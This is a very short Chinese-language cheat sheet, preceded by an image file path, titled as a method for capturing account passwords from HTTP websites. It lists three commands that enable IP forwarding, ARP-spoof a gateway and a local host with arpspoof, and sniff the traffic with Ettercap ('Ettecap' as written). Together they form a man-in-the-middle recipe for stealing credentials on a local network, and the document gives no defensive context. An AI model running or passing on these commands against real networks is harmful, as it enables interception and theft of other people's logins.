 # http网站账户密码抓取
- echo ”1″ > /proc/sys/net/ipv4/ip_forward
- arpspoof -i eth0 -t 192.168.1.1 192.168.1.103
- Ettecap -Tq -i eth0  
